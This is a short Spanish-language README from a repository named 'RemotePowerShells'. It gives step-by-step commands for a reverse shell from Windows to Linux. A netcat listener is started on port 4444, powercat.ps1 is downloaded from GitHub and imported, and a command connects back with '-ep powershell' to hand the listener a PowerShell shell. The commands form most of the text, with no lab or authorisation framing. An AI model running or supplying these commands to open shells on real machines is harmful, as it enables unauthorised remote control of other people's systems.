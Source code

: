 # RemotePowerShells
Repositorio sobre shell remotas.


\`\`\`markdown
# Shell Remota entre Linux y Windows

Este documento proporciona una guía paso a paso para establecer una shell remota entre una máquina Linux y una máquina Windows utilizando Netcat y Powercat.

## En la máquina Linux (Listener)

1. Abre una terminal.
2. Ejecuta el siguiente comando para iniciar un listener con Netcat:
   \`\`\`bash
   nc -lvp 4444
   \`\`\`
   Donde `4444` es el puerto en el que deseas escuchar.

## En la máquina Windows (Conector)

1. Abre PowerShell.
2. Descarga e importa el módulo Powercat con los siguientes comandos:
   \`\`\`powershell
   Invoke-WebRequest "https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1" -OutFile powercat.ps1
   Import-Module ./powercat.ps1
   \`\`\`
3. Conecta tu máquina Windows a la máquina Linux con el siguiente comando:
   \`\`\`powershell
   powercat -c <ip-address> -p 4444 -ep powershell
   \`\`\`
   Donde `<ip-address>` es la dirección IP de tu máquina Linux y `4444` es el puerto que especificaste en el comando Netcat.

Ahora, cuando te conectes desde tu máquina Linux, obtendrás una shell de PowerShell de tu máquina Windows.
\`\`\`
